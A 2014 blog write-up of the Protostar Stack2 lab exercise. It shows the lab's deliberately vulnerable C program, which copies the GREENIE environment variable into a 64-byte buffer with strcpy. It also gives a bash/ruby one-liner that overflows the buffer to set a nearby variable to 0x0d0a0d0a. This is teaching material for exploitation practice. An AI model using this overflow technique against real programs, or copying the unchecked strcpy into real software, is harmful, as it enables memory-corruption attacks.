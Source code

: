 Author: zlowram
Date: 12-08-2014 00:24
Title: Exploit-exercises Protostar Stack2 write-up 
Template: post
Comments: enabled

In this third exercise of protostar we have to overwrite, again, the variable "modified" with a
concrete value in order to get the "good boy" message. This time, we must overwrite it with the value: "0x0d0a0d0a".

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

The particularity of this exercise is that the input of the program is not
stdin. Instead, the program gets the value of an environment variable called
"GREENIE", and then it copies it to "buffer" with an insecure function: strcpy.

Taking this into account, we're now at the same situation than in [stack1](/2014/12/7/exploit-exercises-protostar-stack1/),
where we had to stuff 64 bytes plus 4 bytes with the wanted hex value. This
time, though, we have to set an environment variable called "GREENIE" with the
whole payload and.. that's it!

As usual, we use ruby and bash to write the solution:

```bash
#!/bin/bash

export GREENIE=$(ruby -e ' puts "A"*64 + "\x0a\x0d\x0a\x0d" ') && ./stack2
```
